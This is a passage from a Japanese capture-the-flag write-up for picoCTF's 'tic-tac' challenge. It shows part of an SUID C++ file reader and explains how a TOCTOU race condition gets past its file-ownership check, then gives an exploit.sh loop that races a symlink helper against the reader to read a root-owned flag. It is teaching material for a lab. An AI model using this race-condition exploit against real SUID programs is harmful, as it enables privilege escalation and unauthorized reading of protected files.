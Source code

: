 ```c
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

<br />

`txtreader` には、見ての通り SUID ビットが立っており、これを使って /home/ctf-player/flag.txt を読み込むチャレンジなのですが、flag.txtのオーナーはrootであるために、中身が見れません。

以下、実行結果。

<pre>
ctf-player@pico-chall$ ./txtreader flag.txt
Error: you don't own this file

</pre>


<br /><br />

チャレンジタイトル `tic-tac` からも想像つきますし、"getuid bypass" 辺りをキーワードにググってもわかるのですが、これは [TOCTOU](https://en.m.wikipedia.org/wiki/Time-of-check_to_time-of-use) (Time of check to time of use) を使って解くチャレンジです。

<br />

以下の2つのファイルを用意します。

なお、これらのコードのサンプルは、TOCTOUを調べていると見つかります。

- exploit.sh (echoしている文字列は、何でもいいです)
```sh
#!/bin/sh
while true
do
    rm temp;
    echo "This is a file that the user can overwrite" > temp
    echo "TOCTOU-Attack-test" | ./txtreader temp & ./symbolic-link temp
done
```
